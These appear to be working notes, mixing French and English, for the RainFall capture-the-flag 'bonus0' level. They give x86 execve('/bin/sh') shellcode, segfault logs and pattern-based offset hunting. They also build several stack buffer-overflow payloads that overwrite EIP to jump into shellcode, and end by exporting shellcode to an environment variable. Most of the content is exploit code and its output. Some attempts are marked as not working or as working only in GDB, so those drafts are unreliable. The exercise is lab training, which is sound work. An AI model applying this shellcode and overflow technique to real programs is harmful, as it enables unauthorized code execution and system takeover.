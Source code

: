 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf
0xbffff70e --> address of buffer -> \x0e\xf7\xff\xbf
0xbffff74e --> address of buffer maybe wtf lol mdr --> \x4e\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

````bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
````

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0 --> 1ere partie shellcode
\x0b\xcd\x80 --> 2eme partie shellcode
'A' \* 13
\x0e\xf7\xff\xbf

```bash
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 11 + "\x4e\xf7\xff\xbf" + "A"'; cat)  | ./bonus0
```

run < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 12 + "\x4e\xf7\xff\xbf" + "A"';)

LOG pour find segfault

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 16')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```

```
Wrong Payload
20 chars de payload

- 16 chars de payload
- overwrite return addresse --> jump vers debut de buffer (start of payload)
+ 16 chars de payload
+ overwrite return addresse --> jump vers debut de buffer (start of payload)
```

input1: 19 A || input2: 1B
--> AAAAAAAAAAAAAAAAAAA B
19 A | 1B

intput1 : 20 A || input2: 1 B
--> AAAAAAAAAAAAAAAAAAAAB B
20 A + 1B | 1B

input1: 20A || input2 : 5 B
--> AAAAAAAAAAAAAAAAAAAABBBBB BBBBB
20 A + 5B | 5B

```
input 1 = AAAAAAAAAAAAAAAAAAAA (20 CHARS)
input 2 = BBBBBBBBBBBBBBBB	(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB	(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB	(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB	(55 chars total)
```

```bash
(python -c 'print "A" * 20'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')  | ./bonus0
```

```
segfault
0x	41	33	61	41
	A	3	a	A
```

`offset to segfault at 20 CHARS dans input1 et 9 CHARS in input 2`

```bash
Payload
20 chars de payload (-> input 1)
+ 9 chars de payload (-> input 2)
+ adress to start of payload (address of buffer in main)
+ ballec du reste?
```

```bash
SHELLCODE
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```buffer
20 chars de
AAAAAAAAAAAAAAAAAAAABBBBBBBBBB BBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBB BBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB BBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBB BBBBBBBBBBBBBBB
```

---

## NEW PAYLAOD

```bash
input 1 = AAAAAAAAAAAAAAAAAAAA	(20 CHARS)

input 2 = BBBBBBBBBBBBBBBB		(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB		(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB		(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB		(55 chars total)
eip            0xb7e40042	0xb7e40042

input 2 = BBBBBBBBBBBBBBBBBB	(18 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBB	(57 chars total)
eip            0x00424242	0x00424242

input 2 = BBBBBBBBBBBBBBBBBBB	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBB	(59 chars total)
eip            0x42424242	0x42424242

input 2 = BBBBBBBBBBCDEFGHIJK	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCDEFGHIJK BBBBBBBBBBCDEFGHIJK	(59 chars total)
eip            0x4a494847	0x4a494847
4a	49	48	47
J	I	H	G

input 2 = 14 CHARS + EIP (4 chars) + 1 CHAR trash
input 1 = 20 CHARS

BUFFER = 
input 1 (20 chars)
+ input 2 ( 19 )
+ espace
+ input 2 (19)

BUFFER =

20 chars unique
+ 14 chars
+ EIP (4 chars)
+ 1 char trash
+ espace
+ 14 chars
+ EIP (4 chars) //celui la overflow
+ 1 char trash

PAYLOAD = 
input 1 = 20er char du shellcode
input 2 = 3 characters du shellcode + 11 trash + EIP (jump == 4 chars) + 1 trash

SHELLCODE


PAYLOAD
input 1 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
input 2 = "\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A"
input 2 = 
```

address of start of buffer: `0xbffff706` = `\x06\xf7\xff\xbf`

NE MARCHE PAS
MAIS FONCTIONNE DANS GDB
```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)  | ./bonus0
```

POUR GDB
```bash
run < <(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat) 
```
-----

NE MARCHE PAS
```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\xa0\x85\x04\x08" + "A")'; cat)  | ./bonus0
```

main - 4 = 080485a4 - 4 = 080485a0 = \xa0\x85\x04\x08






export EXPLOIT=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')

